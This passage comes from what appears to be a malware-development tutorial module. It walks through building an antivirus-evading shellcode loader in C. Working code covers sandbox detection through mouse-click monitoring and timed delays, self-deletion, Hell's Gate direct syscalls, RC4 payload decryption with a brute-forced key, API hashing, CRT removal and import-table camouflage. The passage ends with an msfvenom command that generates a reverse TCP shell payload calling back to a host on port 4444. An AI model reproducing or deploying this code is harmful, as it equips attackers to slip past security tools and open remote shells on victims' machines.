// Converting from milliseconds to the 100-nanosecond - negative time interval
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = -Delay;
_T0 = GetTickCount64();
// Sleeping for 'dwMilliSeconds' ms
if ((STATUS = pNtDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
_T1 = GetTickCount64();
// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
return FALSE;
printf("\n\t>> _T1 - _T0 = %d \n", (DWORD)(_T1 - _T0));
printf("[+] DONE \n");
return TRUE;
}AntiAnalysis Helper Function
Create a new function, AntiAnalysis, to efficiently call the above functions. To use the AntiAnalysis function, an external variable, g_Sys, is required. g_Sys is a VX_TABLE structure that contains the data necessary to use syscalls in the program.
Brief points about the AntiAnalysis function:
dwMilliSeconds as an input parameter which represents the amount of time to monitor for mouse clicks.DeleteSelf to delete the file from the disk.MouseClicksLogger through a new thread and waits for it for a period specified by dwMilliSeconds.i variable; where i represent the value to delay execution for in minutes.g_dwMouseClicks, is reset so the next loop will start the mouse click test from the beginning.i forces the subsequent DelayExecutionVia_NtDE function to wait for a longer duration, creating a way of delaying execution in a sandbox.AntiAnalysis.c
// using the 'extern' keyword, because this variable is already defined in the 'Inject.c' file
extern VX_TABLE g_Sys;
//...
BOOL AntiAnalysis(DWORD dwMilliSeconds) {
HANDLE hThread = NULL;
NTSTATUS STATUS = NULL;
LARGE_INTEGER DelayInterval = { 0 };
FLOAT i = 1;
LONGLONG Delay = NULL;
Delay = dwMilliSeconds * 10000;
DelayInterval.QuadPart = -Delay;
// Self-deletion
if (!DeleteSelf()) {
// we dont care for the result - but you can change this if you want
}
// Try 10 times, after that return FALSE
while (i <= 10) {
printf("[#] Monitoring Mouse-Clicks For %d Seconds - Need 6 Clicks To Pass\n", (dwMilliSeconds / 1000));
// Creating a thread that runs 'MouseClicksLogger' function
HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, MouseClicksLogger, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Waiting for the thread for 'dwMilliSeconds'
HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
if ((STATUS = HellDescent(hThread, FALSE, &DelayInterval)) != 0 && STATUS != STATUS_TIMEOUT) {
printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
HellsGate(g_Sys.NtClose.wSystemCall);
if ((STATUS = HellDescent(hThread)) != 0) {
printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Unhooking
if (g_hMouseHook && !UnhookWindowsHookEx(g_hMouseHook)) {
printf("[!] UnhookWindowsHookEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Delaying execution for specific amount of time
if (!DelayExecutionVia_NtDE((FLOAT)(i / 2)))
return FALSE;
// If the user clicked more than 5 times, we return true
if (g_dwMouseClicks > 5)
return TRUE;
// If not, we reset the mouse-clicks variable, and monitor the mouse-clicks again
g_dwMouseClicks = NULL;
// Increment 'i', so that next time 'DelayExecutionVia_NtDE' will wait longer
i++;
}
return FALSE;
}Common.h must be updated to include the prototype for AntiAnalysis as well as defining NEW_STREAM which is required by the DeleteSelf function.
Common.h
// The new data stream name
#define NEW_STREAM L":Maldev"
BOOL AntiAnalysis(DWORD dwMilliSeconds);The anti-analysis features can be enabled by calling the AntiAnalysis function in main.c, however, this must be done after the InitializeSyscalls function has been called as the AntiAnalysis function utilizes direct syscalls which are only available after this function has been executed. For testing, the following if-statement is added to the main function in main.c.
Main.c
if (!AntiAnalysis(20000)) {
printf("[!] Detected A Virtualized Environment \n");
}Where 20000 represents the time to monitor the mouse clicks in milliseconds.
NtDelayExecution Via Hell's Gate
Hell's Gate can be used to call NtDelayExecution, which requires updating the VX_TABLE structure definition located in Common.h and the InitializeSyscalls function to add the VX_TABLE_ENTRY NtDelayExecution element and initialize it. The Hasher program will also need to be used to calculate the hash for the syscall, as was done in previous steps.
Anti-Analysis Results
The following image shows the output of the AntiAnalysis function at runtime.

Payload Encryption
HellShell.exe will be used for payload encryption. The command that will be used is .\HellShell.exe calc.bin rc4, where calc.bin is the raw payload file. The encrypted payload will replace the previous unencrypted payload in the main.c file. Furthermore, the Rc4EncryptionViSystemFunc032 function which is responsible for decryption will be saved in the Inject.c file.
Brute Force Decryption
HellShell.exe generates the key below.
unsigned char Rc4Key[] = {
0x61, 0x1A, 0xA0, 0xAA, 0xA7, 0x92, 0x9F, 0xBA, 0x8F, 0xCE, 0x4C, 0xD8, 0x11, 0xFA, 0xED, 0xB9 };The key will be encrypted and then decrypted using the brute force method. First, the key needs to be encrypted. This will be done via a new project that will use the same algorithm as the KeyGuard.exe tool. The only difference is that the key is not randomly generated since HellShell.exe already generated one(Rc4Key). This new project is shared in this module's code and is named KeyGuard2.

The Rc4EncryptionViSystemFunc032 function will be updated to include the brute forcing logic. The function will be called by RemoteMappingInjectionViaSyscalls.
BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
// The return of SystemFunction032
NTSTATUS STATUS = NULL;
BYTE RealKey [KEY_SIZE] = { 0 };
int b = 0;
// Brute forcing the key:
while (1) {
// Using the hint byte, if this is equal, then we found the 'b' value needed to decrypt the key
if (((pRc4Key[0] ^ b) - 0) == HINT_BYTE)
break;
// Else, increment 'b' and try again
else
b++;
}
printf("[i] Calculated 'b' to be : 0x%0.2X \n", b);
// Decrypting the key
for (int i = 0; i < KEY_SIZE; i++) {
RealKey[i] = (BYTE)((pRc4Key[i] ^ b) - i);
}
// Making 2 USTRING variables, 1 passed as key and one passed as the block of data to encrypt/decrypt
USTRING Key = { .Buffer = RealKey, .Length = dwRc4KeySize, .MaximumLength = dwRc4KeySize },
Img = { .Buffer = pPayloadData, .Length = sPayloadSize, .MaximumLength = sPayloadSize };
// Since SystemFunction032 is exported from Advapi32.dll, we load it Advapi32 into the prcess,
// And using its return as the hModule parameter in GetProcAddress
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
// If SystemFunction032 calls failed it will return non zero value
if ((STATUS = SystemFunction032(&Img, &Key)) != 0x0) {
printf("[!] SystemFunction032 FAILED With Error : 0x%0.8X\n", STATUS);
return FALSE;
}
return TRUE;
}Brute Force Decryption Results
Executing the payload (Anti analysis features are disabled).

API Hashing
So far, all the WinAPIs used have been called directly, which means they can be found in the IAT of the implementation. To resolve this, a new file, ApiHashing.c, is created which contains the necessary functions for implementing API hashing.
ApiHashing.c
#include <Windows.h>#include "Structs.h"#include "Common.h"
FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {
if (hModule == NULL || dwApiNameHash == NULL)
return NULL;
PBYTE pBase = (PBYTE)hModule;
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
// Hashing every function name `pFunctionName`
// If both hashes are equal, then we found the function we want
if (dwApiNameHash == HASHA(pFunctionName)) {
return pFunctionAddress;
}
}
return NULL;
}
HMODULE GetModuleHandleH(DWORD dwModuleNameHash) {
if (dwModuleNameHash == NULL)
return NULL;
#ifdef _WIN64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
while (pDte) {
if (pDte->FullDllName.Length != NULL && pDte->FullDllName.Length < MAX_PATH) {
// Converting `FullDllName.Buffer` to upper case string
CHAR UpperCaseDllName[MAX_PATH];
DWORD i = 0;
while (pDte->FullDllName.Buffer[i]) {
UpperCaseDllName[i] = (CHAR)toupper(pDte->FullDllName.Buffer[i]);
i++;
}
UpperCaseDllName[i] = '\0';
// Hashing `UpperCaseDllName` and comparing the hash value to that's of the input `dwModuleNameHash`
if (HASHA(UpperCaseDllName) == dwModuleNameHash)
return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
}
else {
break;
}
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}Header File
Before continuing, a new header file, typedef.h, should be created to define the used WinAPIs as function pointers for clarity and maintainability. Common.h will need to include the typedef.h header file using #include "typedef.h".
typedef.h
#pragma once#include <Windows.h>typedef ULONGLONG(WINAPI* fnGetTickCount64)();
typedef HANDLE(WINAPI* fnOpenProcess)(DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId);
typedef LRESULT(WINAPI* fnCallNextHookEx)(HHOOK hhk, int nCode, WPARAM wParam, LPARAM lParam);
typedef HHOOK(WINAPI* fnSetWindowsHookExW)(int idHook, HOOKPROC lpfn, HINSTANCE hmod, DWORD dwThreadId);
typedef BOOL(WINAPI* fnGetMessageW)(LPMSG lpMsg, HWND hWnd, UINT wMsgFilterMin, UINT wMsgFilterMax);
typedef LRESULT(WINAPI* fnDefWindowProcW)(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam);
typedef BOOL(WINAPI* fnUnhookWindowsHookEx)(HHOOK hhk);
typedef DWORD(WINAPI* fnGetModuleFileNameW)(HMODULE hModule, LPWSTR lpFilename, DWORD nSize);
typedef HANDLE(WINAPI* fnCreateFileW)(LPCWSTR lpFileName, DWORD dwDesiredAccess, DWORD dwShareMode, LPSECURITY_ATTRIBUTES lpSecurityAttributes, DWORD dwCreationDisposition, DWORD dwFlagsAndAttributes, HANDLE hTemplateFile);
typedef BOOL(WINAPI* fnSetFileInformationByHandle)(HANDLE hFile, FILE_INFO_BY_HANDLE_CLASS FileInformationClass, LPVOID lpFileInformation, DWORD dwBufferSize);
typedef BOOL(WINAPI* fnCloseHandle)(HANDLE hObject);API_HASHING Structure
Next, a new structure API_HASHING is defined in Common.h and is used to store the addresses of WinAPIs used, making them more accessible for use within the implementation's functions.
Common.h
typedef struct _API_HASHING {
fnGetTickCount64 pGetTickCount64;
fnOpenProcess pOpenProcess;
fnCallNextHookEx pCallNextHookEx;
fnSetWindowsHookExW pSetWindowsHookExW;
fnGetMessageW pGetMessageW;
fnDefWindowProcW pDefWindowProcW;
fnUnhookWindowsHookEx pUnhookWindowsHookEx;
fnGetModuleFileNameW pGetModuleFileNameW;
fnCreateFileW pCreateFileW;
fnSetFileInformationByHandle pSetFileInformationByHandle;
fnCloseHandle pCloseHandle;
}API_HASHING, * PAPI_HASHING;Updating VX_Table
The GetModuleHandleH and GetProcAddressH functions must be used to initialize the elements in the API_HASHING structure. The InitializeSyscalls function then uses these functions to initialize the VX_TABLE structure, which is used to call syscalls.
// ...
API_HASHING g_Api = {0};
BOOL InitializeSyscalls() {
// Get the PEB
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return FALSE;
// Get NTDLL module
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Get the EAT of NTDLL
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return FALSE;
g_Sys.NtCreateSection.uHash = NtCreateSection_JOAA;
g_Sys.NtMapViewOfSection.uHash = NtMapViewOfSection_JOAA;
g_Sys.NtUnmapViewOfSection.uHash = NtUnmapViewOfSection_JOAA;
g_Sys.NtClose.uHash = NtClose_JOAA;
g_Sys.NtCreateThreadEx.uHash = NtCreateThreadEx_JOAA;
g_Sys.NtWaitForSingleObject.uHash = NtWaitForSingleObject_JOAA;
g_Sys.NtQuerySystemInformation.uHash = NtQuerySystemInformation_JOAA;
g_Sys.NtDelayExecution.uHash = NtDelayExecution_JOAA;
// Initialize the syscalls
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtMapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtQuerySystemInformation))
return FALSE;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtDelayExecution))
return FALSE;
// User32.dll exported
g_Api.pCallNextHookEx = (fnCallNextHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), CallNextHookEx_JOAA);
g_Api.pDefWindowProcW = (fnDefWindowProcW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), DefWindowProcW_JOAA);
g_Api.pGetMessageW = (fnGetMessageW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), GetMessageW_JOAA);
g_Api.pSetWindowsHookExW = (fnSetWindowsHookExW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), SetWindowsHookExW_JOAA);
g_Api.pUnhookWindowsHookEx = (fnUnhookWindowsHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), UnhookWindowsHookEx_JOAA);
if (g_Api.pCallNextHookEx == NULL || g_Api.pDefWindowProcW == NULL || g_Api.pGetMessageW == NULL || g_Api.pSetWindowsHookExW == NULL || g_Api.pUnhookWindowsHookEx == NULL)
return FALSE;
// Kernel32.dll exported
g_Api.pGetModuleFileNameW = (fnGetModuleFileNameW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetModuleFileNameW_JOAA);
g_Api.pCloseHandle = (fnCloseHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CloseHandle_JOAA);
g_Api.pCreateFileW = (fnCreateFileW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CreateFileW_JOAA);
g_Api.pGetTickCount64 = (fnGetTickCount64)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetTickCount64_JOAA);
g_Api.pOpenProcess = (fnOpenProcess)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), OpenProcess_JOAA);
g_Api.pSetFileInformationByHandle = (fnSetFileInformationByHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), SetFileInformationByHandle_JOAA);
if (g_Api.pGetModuleFileNameW == NULL || g_Api.pCloseHandle == NULL || g_Api.pCreateFileW == NULL || g_Api.pGetTickCount64 == NULL || g_Api.pOpenProcess == NULL || g_Api.pSetFileInformationByHandle == NULL)
return FALSE;
return TRUE;
}The WinAPIs hashes are generated by the Hasher project as shown below.

The next step is to utilize the g_Api structure to call all WinAPIs, by prefixing each one with g_Api.<WinAPI>, for example, OpenProcess should be called as g_Api.pOpenProcess.
SystemFunction032 API Hashing Error
While applying API hashing to the SystemFunction032 function (that is not included in the g_Api structure) the following exception will occur.

An exception is thrown when attempting to execute SystemFunction032 at address 0x00007FFC42C09FF2, which appears to be a valid address since it's being fetched using the line of code below.
fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddressH(LoadLibraryA("Advapi32"), SystemFunction032_JOAA);Use xdbg to check the address to understand the root of the problem.


Forwarded Functions
The address being retrieved using GetProcAddressH does not lead to a function and instead points to the string "CRYPTSP.SystemFunction032". This indicates the presence of a forwarded function, where a function exported from one DLL (DLL A) is located in another DLL (DLL B). When using the original GetProcAddress WinAPI to fetch the address of this kind of function, additional logic is performed behind the scenes to retrieve the address in DLL B. This is all done seamlessly and therefore one may mistakenly assume that the function is exported from DLL A.
Therefore, instead of loading Advapi32.dll (DLL A) to find SystemFunction032, Cryptsp.dll (DLL B) should be loaded as it holds the actual address. This is indicated by the string "CRYPTSP.SystemFunction032", which provides a hint as to where the function is located. This is necessary because GetProcAddressH does not handle forwarded functions. By making this minor change, the code will now compile and execute successfully.

CRT Library Removal
Following the steps outlined in the CRT Library Removal & Malware Compiling module will enable the removal of the CRT Library. An error will arise because of the usage of printf and wprintf functions. To solve this, a custom function can be used to replace these functions. The printing functionality will only be enabled when debug mode is enabled. The printf and wprintf functions replacement should be saved in a new file called Debug.h, which must be included in all files that call printf or wprintf.

Debug.h
#pragma once#include <Windows.h>// uncomment to enable debug mode
//\
#define DEBUG
#ifdef DEBUG// wprintf replacement
#define PRINTW( STR, ... ) \
if (1) { \
LPWSTR buf = (LPWSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfW( buf, STR, __VA_ARGS__ ); \
WriteConsoleW( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
} // printf replacement
#define PRINTA( STR, ... ) \
if (1) { \
LPSTR buf = (LPSTR)HeapAlloc( GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 ); \
if ( buf != NULL ) { \
int len = wsprintfA( buf, STR, __VA_ARGS__ ); \
WriteConsoleA( GetStdHandle( STD_OUTPUT_HANDLE ), buf, len, NULL, NULL ); \
HeapFree( GetProcessHeap(), 0, buf ); \
} \
} #endif // DEBUG// Only print if debug mode is enabled
#ifdef DEBUGPRINTA("...");
#endifIf one attempts to compile after this, they will encounter more errors because memcpy, memset, toupper are also imported from the CRT library. To fix this issue, custom functions that will execute the same logic must be added and stored in WinApi.c, which is shown below.
WinApi.c
CHAR _toUpper(CHAR C)
{
if (C >= 'a' && C <= 'z')
return C - 'a' + 'A';
return C;
}
PVOID _memcpy(PVOID Destination, PVOID Source, SIZE_T Size)
{
for (volatile int i = 0; i < Size; i++) {
((BYTE*)Destination)[i] = ((BYTE*)Source)[i];
}
return Destination;
}
extern void* __cdecl memset(void*, int, size_t);
#pragma intrinsic(memset)#pragma function(memset)void* __cdecl memset(void* Destination, int Value, size_t Size) {
unsigned char* p = (unsigned char*)Destination;
while (Size > 0) {
*p = (unsigned char)Value;
p++;
Size--;
}
return Destination;
}There is one final error to solve which is the undefined _fltused symbol. The _fltused symbol is a global variable in the CRT Library which is used to determine if floating-point operations were used in a program. By creating a new variable named _fltused and setting it to zero, the error will be resolved. This mirrors the initialization of the variable by the CRT Library, which will result in the compiler building the project with no errors.
IAT Camouflage
Adding the header file IatCamouflage.h, which contains the same code introduced in the IAT Camouflage module, should be done as a final step. IatCamouflage.h should be included in the main.c file only and called at the beginning of the main function, so that the import address table of the implementation will appear benign.
Final Result
This demonstration uses Msfvenom's reverse TCP shell payload which is generated via the command below.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.111 LPORT=4444 -f raw -o reverse.binAV.exe's IAT is shown below.
